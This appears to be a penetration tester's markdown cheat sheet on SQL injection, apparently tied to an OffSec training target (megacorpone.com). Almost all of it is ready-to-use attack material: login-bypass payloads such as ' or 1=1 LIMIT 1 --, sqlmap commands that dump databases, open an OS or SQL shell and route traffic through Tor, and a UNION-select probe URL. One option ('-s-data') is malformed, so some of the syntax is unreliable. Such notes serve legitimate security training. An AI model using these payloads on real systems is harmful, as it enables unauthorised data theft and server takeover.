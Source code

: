 ```yaml
---
category: Uncategorized
tags: []
---
```

#enumeration #web-enumeration 

Testing for Bypasses: 

' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -

# SQLMAP

## Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

## Enumerate tables
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

## Dump table data
- sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
## Dump Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" -C "COLUMN" --dump
## List Columns
- sqlmap --dbms=mysql -u https://megacorpone.com -D "DATABASE" -T "TABLE" --columns
## Specify parameter to exploit
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1=value1&param2=value2" --dbs -p param2

##  Specify parameter to exploit in 'nice' URIs
- sqlmap --dbms=mysql -u "http://www.megacorpone.com/param1/value1*/param2/value2" --dbs # exploits param1

## Get OS shell
- sqlmap --dbms=mysql -u "$URL" --os-shell

## Get SQL shell
- sqlmap --dbms=mysql -u "$URL" --sql-shell

## SQL query
- sqlmap --dbms=mysql -u https://megacorpone.com -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

## Use Tor Socks5 proxy
- sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u https://megacorpone.com --dbs
## Using SQLMAP with basic authentication or NTLM
- sqlmap -u "http://megacorpone.com/" -s-data=param1=value1&param2=value2 -p param1 --auth-type=[basic/ntlm] --auth-cred=username:password
# SQLI

Testing for a row: 

- http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
# Resources: 
- http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html
- https://cheatography.com/dormidera/cheat-sheets/oracle-sql-injection/
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet